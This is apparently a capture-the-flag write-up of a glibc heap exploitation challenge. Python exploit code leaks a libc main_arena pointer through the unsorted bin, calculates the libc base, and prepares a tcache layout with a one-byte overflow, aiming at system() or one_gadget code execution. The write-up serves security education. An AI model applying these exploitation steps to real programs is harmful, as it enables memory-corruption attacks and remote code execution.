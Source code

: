 * The fd and bk pointers in the freed chunk header are set to point to the main_arena. These pointers contain addresses within LIBC

#### Step 3: Allocate a Smaller Chunk to Partially Reuse the Freed Chunk

The key insight is that if we allocate a chunk smaller than our freed large chunk:

* malloc will split the unsorted bin chunk
* Return part of it to us
* Our new chunk will contain the fd or bk pointer that points to main_arena
#### Step 4: Read the LIBC Pointer
Using show_plan() on this newly allocated chunk reveals the LIBC main_arena pointer, which we can use to:

Calculate the LIBC base address (by subtracting the known offset to main_arena)
Determine the location of critical functions like system() or one_gadget RCE addresses


# Solution

### First, we are going to leak a `libc address`. 

```python
# Leak a libc address
createplan(b'',0x500)  # 0
createplan(b'aaaa',0x20)  # 1
deleteplan(0)
createplan(b'',0x500)  # 0 again
```

When a large chunk is freed into the unsorted bin, it gets linked to the main_arena doubly-linked list. The fd and bk pointers in the chunk header become pointers into libc's main_arena, which persist even after reallocation.

### Extract and calculate Libc Base:

```python
leak = showplan(0)[1].strip()
leak = leak.ljust(8,b'\x00')    
leak = u64(leak)
leak = leak << 8
log.info(f'leak: {hex(leak)}')
libc.address = leak - 0x3ebc00
```

Use showplan(0) to display the contents of the reallocated chunk, which includes a libc pointer
Process and convert the leak to a usable address (padding to 8 bytes and left-shifting by 8 bits).
Calculate the libc base address by subtracting the known offset (0x3ebc00) of the leaked address

### Heap Layout Preparation and Heap Leak
```python
createplan(b'x'*(31),0x20)  # 2
createplan(b'b'*(0x20-1),0x20)  # 3
editplan(2,b'a'*(31))
deleteplan(1)
deleteplan(3)
createplan(b'',0x20)  #1
```
```
Create chunk #2 filled with 'x' characters (31 bytes)
Create chunk #3 filled with 'b' characters (0x20-1 bytes)
Edit chunk #2, replacing content with 'a' characters - important: this likely triggers the one-byte overflow since it writes exactly 31 bytes without NULL termination
Free chunks #1 and #3, placing them in the tcache
Allocate a new chunk that reuses the tcache entry for #1
```